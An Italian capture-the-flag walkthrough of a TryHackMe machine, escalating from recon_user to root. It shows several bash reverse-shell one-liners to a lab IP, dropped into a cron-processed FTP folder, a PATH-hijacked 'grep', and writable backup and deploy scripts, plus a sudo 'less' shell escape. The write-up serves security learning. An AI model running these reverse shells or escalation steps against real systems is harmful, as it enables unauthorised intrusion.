

Jump
Obiettivo escalare da: recon_user → dev_user → monitor_user → ops_user → root
Partiamo come prima cosa nell’enumerare i servizi presenti nella macchina attraverso nmap
| kali@kali:~$ sudo nmap -sS -sV -sC -O -p- jump.ctf
[sudo] password for kali:
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-20 20:50 +0200
Nmap scan report for jump.ctf (10.130.161.238)
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx 2 115 123 4096 Apr 30 06:00 incoming [NSE: writeable]
|_drwxr-xr-x 4 115 123 4096 Jun 09 08:22 pub
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:192.168.142.32
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 3
| vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 60:d4:fe:91:72:39:a0:c7:cc:ed:eb:4d:9f:58:11:a2 (ECDSA)
|_ 256 58:79:4a:53:68:50:5e:0a:97:fe:e1:e1:a4:71:d1:62 (ED25519)
|
| Servizio |
Porta |
Versione |
Note |
| FTP |
21 |
vsftpd 3.0.5 |
|
| SSH |
22 |
OpenSSH 9.6p1 |
|
FTP supporta il login anonymous
| kali@kali:~/Desktop/CTF/jump$ ftp jump.ctf
Connected to jump.ctf.
220 (vsFTPd 3.0.5)
Name (jump.ctf:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||32141|)
150 Here comes the directory listing.
drwxrwxrwx 2 115 123 4096 Apr 30 06:00 incoming
drwxr-xr-x 4 115 123 4096 Jun 09 08:22 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||59840|)
150 Here comes the directory listing.
-rw-r--r-- 1 0 0 139 Feb 02 2026 README.txt
drwxr-xr-x 2 115 123 4096 Feb 01 2026 archive
drwxrwxrwx 2 115 123 4096 Feb 01 2026 uploads
226 Directory send OK.
ftp> mget *
mget README.txt [anpqy?]?
229 Entering Extended Passive Mode (|||25292|)
150 Opening BINARY mode data connection for README.txt (139 bytes).
100% |**********************************************************| 139 1.16 MiB/s 00:00 ETA
226 Transfer complete.
139 bytes received in 00:00 (4.31 KiB/s)
mget archive [anpqy?]?
229 Entering Extended Passive Mode (|||63389|)
550 Failed to open file.
mget uploads [anpqy?]?
229 Entering Extended Passive Mode (|||34763|)
550 Failed to open file.
ftp>
|
Analizzando il README.md vediamo scritto:
[ recon pipeline ]
All recon jobs must be placed in incoming/.
Files are processed automatically on arrival.
Invalid formats are ignored.
Quindi sappiamo che c’è un cronjob che esegue periodicamente i file presenti in incoming
Ho provato con un file .sh che apre una reverse shell:
| kali@kali:~/Desktop/CTF/jump$ cat shell.sh
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.142.32/4444 0>&1
|
Ottenendo con successo la reverse shell. e autenticandomi come recon_user.
| recon_user@tryhackme-2404:~$ cat flag.txt
cat flag.txt
THM{5a3f1c92-****-****-****-************}
recon_user@tryhackme-2404:~$
|
Ora dobbiamo diventare dev_user.
Procediamo con l’enumerazione dell’utente attuale
| recon_user@tryhackme-2404:~$ hostname
tryhackme-2404
recon_user@tryhackme-2404:~$ uname -a
Linux tryhackme-2404 6.17.0-1013-aws #13~24.04.1-Ubuntu SMP Fri Apr 24 21:50:45 UTC 2026 x86_64 x86_64 x86_64 GNU/Linux
recon_user@tryhackme-2404:~$ id
uid=1001(recon_user) gid=1001(recon_user) groups=1001(recon_user),1002(dev_user),1005(devops)
recon_user@tryhackme-2404:~$ env
SHELL=/bin/bash
HISTSIZE=0
PWD=/home/recon_user
LOGNAME=recon_user
HOME=/home/recon_user
LANG=C.UTF-8
LS_COLORS=
LESSCLOSE=/usr/bin/lesspipe %s %s
TERM=xterm
LESSOPEN=| /usr/bin/lesspipe %s
SHLVL=3
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
HISTFILESIZE=0
_=/usr/bin/env
recon_user@tryhackme-2404:~$ history
|
Nulla di interessante… in realtà su dev_user la chiave è già accessibile quindi probabilmente non serve nemmeno entrare nel suo profilo (privesc)
| recon_user@tryhackme-2404:~$ cat /home/dev_user/flag.txt
THM{8d2b7a41-****-****-****-************}
|
Guardando ps auxwwnoto una riga interessante:
| monitor+ 602 0.0 0.3 7748 3456 ? Ss 17:30 0:01 /bin/bash /usr/local/bin/healthcheck
|
Quindi come utente monitor_user viene eseguito questo script. Che se guardiamo come è implementato
| recon_user@tryhackme-2404:~$ ls -al /usr/local/bin/healthcheck
-rwxr-xr-x 1 monitor_user monitor_user 98 Apr 29 10:35 /usr/local/bin/healthcheck
recon_user@tryhackme-2404:~$ cat /usr/local/bin/healthcheck
#!/bin/bash
echo "Running as: $(whoami)"
while true; do
ps aux | grep -v grep
sleep 5
done
|
E’ protetto correttamente dallo scrittura, infatti solo l’owner può modificare, però alcuni comandi come whoami, ps, grep non usano il PATHcompleto, rendendoli vulnerabili.
| recon_user@tryhackme-2404:~$ ls
flag.txt grep shell.sh
recon_user@tryhackme-2404:~$ cat grep
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.142.32/4445 0>&1
recon_user@tryhackme-2404:~$ echo $PATH
/home/recon_user:/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
recon_user@tryhackme-2404:~$ pwd
/home/recon_user
recon_user@tryhackme-2404:~$
|
Inoltre possiamo notare trattarsi di un servizio systemd
| recon_user@tryhackme-2404:/home/dev_user$ grep -R "healthcheck" /etc/cron* /etc/systemd/system 2>/dev/null
/etc/systemd/system/healthcheck.service:ExecStart=/usr/local/bin/healthcheck
/etc/systemd/system/timers.target.wants/healthcheck.timer:Description=Run healthcheck every minute
/etc/systemd/system/healthcheck.timer:Description=Run healthcheck every minute
|
e da qui vediamo anche un problema a quello che stavamo facendo noi.
| recon_user@tryhackme-2404:/home/dev_user$ cat /etc/systemd/system/healthcheck.service
[Unit]
Description=System Health Check
[Service]
Type=simple
User=monitor_user
Environment=PATH=/opt/dev/bin:/usr/local/bin:/usr/bin
ExecStart=/usr/local/bin/healthcheck
|
Il path è definito dal servizio systemd, il nostro grep dovrebbe quindi stare in uno di questi percorsi.
| recon_user@tryhackme-2404:/home/dev_user$ ls -ld /opt/dev/bin
drwxr-xr-x 2 dev_user dev_user 4096 Apr 26 18:19 /opt/dev/bin
|
Dove solo dev_user può accedere, quindi dobbiamo fare privesc verso dev_user
| recon_user@tryhackme-2404:/home/dev_user$ find /opt -perm -a=x
/opt
/opt/app
/opt/app/data
/opt/app/deploy_helper.sh
/opt/dev
/opt/dev/backup.sh
/opt/dev/bin
/opt/recon
/opt/recon/process.sh
/opt/recon/scan_uploads.sh
recon_user@tryhackme-2404:/home/dev_user$
|
| recon_user@tryhackme-2404:/home/dev_user$ ls -al /opt/dev/backup.sh
-rwxrwxr-x 1 dev_user dev_user 60 Jun 9 09:03 /opt/dev/backup.sh
recon_user@tryhackme-2404:/home/dev_user$ nano /opt/dev/backup.sh
recon_user@tryhackme-2404:/home/dev_user$ nano /opt/dev/backup.sh
recon_user@tryhackme-2404:/home/dev_user$ cat /opt/dev/backup.sh
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.142.32/4445 0>&1
tar -czf /tmp/recon_backup.tgz /home/recon_user
recon_user@tryhackme-2404:/home/dev_user$
|
Abbiamo attivato la reverse shell verso dev_user ora possiamo riprendere il procedimento di prima (finalmente). semplicemente diamo tutti i permessi a /opt/dev/bin/ps quindi eseguiamo
| dev_user@tryhackme-2404:/opt/dev/bin$ chmod 777 ps
|
E aspettiamo l’attivazione della reverse shell e otteniamo la flag
| monitor_user@tryhackme-2404:/$ whoami
monitor_user
monitor_user@tryhackme-2404:/$ cat /home/monitor_user/flag.txt
THM{c1e9a7b3-****-****-****-************}
|
| monitor_user@tryhackme-2404:/$ sudo -l
Matching Defaults entries for monitor_user on tryhackme-2404:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty, env_keep+=LESS
User monitor_user may run the following commands on tryhackme-2404:
(ops_user) NOPASSWD: /usr/local/bin/deploy.sh
monitor_user@tryhackme-2404:/$
|
Possiamo eseguire deploy.sh con i permessi di ops_user
| monitor_user@tryhackme-2404:/$ cat /usr/local/bin/deploy.sh
#!/bin/bash
cd /opt/app 2>/dev/null
./deploy_helper.sh
monitor_user@tryhackme-2404:/$ cat /opt/app/deploy_helper.sh
#!/bin/bash
echo "[+] Deploy helper running"
echo "[+] Syncing application files"
sleep 2
monitor_user@tryhackme-2404:/$ ls -al /usr/local/bin/deploy.sh
-rwxr-xr-x 1 ops_user ops_user 55 Feb 2 2026 /usr/local/bin/deploy.sh
monitor_user@tryhackme-2404:/$ ls -al /opt/app/deploy_helper.sh
-rwxr-xr-x 1 monitor_user monitor_user 90 Feb 2 2026 /opt/app/deploy_helper.sh
monitor_user@tryhackme-2404:/$
|
Possiamo modificare il deploy_helper.sh inserendoci la reverse shell
| bash -i >& /dev/tcp/192.168.142.32/4447 0>&1
|
Ora siamo diventati ops_user !
| ops_user@tryhackme-2404:/opt/app$ whoami
ops_user
ops_user@tryhackme-2404:/opt/app$ groups
ops_user
ops_user@tryhackme-2404:/opt/app$
ops_user@tryhackme-2404:~$ cat flag.txt
THM{f7a2c9d1-****-****-****-************}
|
| ops_user@tryhackme-2404:/opt/app$ sudo -l
Matching Defaults entries for ops_user on tryhackme-2404:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty, env_keep+=LESS
User ops_user may run the following commands on tryhackme-2404:
(root) NOPASSWD: /usr/bin/less
ops_user@tryhackme-2404:/opt/app$
|
Possiamo, come letto da https://gtfobins.org/gtfobins/less/#shell diventare root attraverso:
| sudo less /etc/hosts
!/bin/sh
|
infatti:

| # cat /root/flag.txt
THM{2b8e6c4a-****-****-****-************}
|